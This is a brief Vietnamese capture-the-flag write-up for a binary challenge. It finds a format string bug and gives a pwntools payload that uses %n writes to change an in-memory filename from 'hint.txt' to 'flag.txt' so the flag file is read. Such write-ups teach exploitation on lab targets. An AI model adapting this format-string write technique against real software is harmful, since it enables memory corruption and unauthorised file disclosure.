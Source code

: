 **1. Find bug**
 - xem qua chương trình
 - ![image](https://user-images.githubusercontent.com/113702087/212834816-8d9003ab-2d79-415f-bf13-1cc36b4cb649.png)
 - ![image](https://user-images.githubusercontent.com/113702087/212834888-0f44f847-e9a2-41f7-be59-41b2a450b1b0.png)
 - ta thấy được lỗi overflow
 - ![image](https://user-images.githubusercontent.com/113702087/212834933-b6fff0b9-d1af-4658-9058-0b65645c24ae.png)
 - ![image](https://user-images.githubusercontent.com/113702087/212834963-17f7e201-9cac-47b7-8a09-90b205492c80.png)
 - hàm hint đọc file từ filename và in ra, ta có thể dùng fmt để thay đổi filename từ hint.txt thành flag.txt

**2. Exploit**
```
file_name = 0x404080

r.sendlineafter(b'>> ', b'1')
fmt = b'%14$n%26465c%15$hn%1285c%16$hn%1992c%17$hn%74c%18$hn'.ljust(64, b'\x00') + p64(file_name + 8) + p64(file_name + 2) + p64(file_name) + p64(file_name + 4) + p64(file_name + 6)
r.sendafter(b'payload: ', fmt)
```
 - ghi 2 byte một từ hint.txt thành flag.txt, byte thứ 9 chuyển thành byte null vì mk đọc flag tại chỗ :>
 - ![image](https://user-images.githubusercontent.com/113702087/212835820-87d0481c-419e-4ae7-917f-8c463e996ee9.png)
 - ![image](https://user-images.githubusercontent.com/113702087/212836065-89996a93-6eb5-4d61-9d99-70d7e28cc419.png)
 - Nhận flag
 - ![image](https://user-images.githubusercontent.com/113702087/212836155-49bf91b7-d9b7-4489-bc01-d8d8c744473b.png)
